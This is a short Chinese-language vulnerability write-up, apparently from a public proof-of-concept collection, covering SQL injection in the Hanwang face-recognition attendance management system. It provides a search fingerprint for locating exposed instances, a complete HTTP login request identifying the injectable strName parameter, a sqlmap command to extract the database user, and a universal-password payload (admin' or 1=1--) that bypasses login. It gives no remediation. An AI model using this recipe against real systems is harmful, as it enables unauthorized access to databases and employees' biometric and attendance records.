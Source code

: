 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

```
汉王人脸考勤管理系统
```

## 网络测绘

```
title=""汉王人脸考勤管理系统""
```

## 漏洞复现



登录界面如下



![](./images/202202101908168.png)



请求包如下



```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```



其中strName参数存在注入



```shell
sqlmap -r postwang.txt -p strName  --current-user
```



![](./images/202202101908817.png)



```plain
user: admin' or 1=1--
pass: admin
```



万能密码绕过登录



![](./images/202202101908955.png)

## 
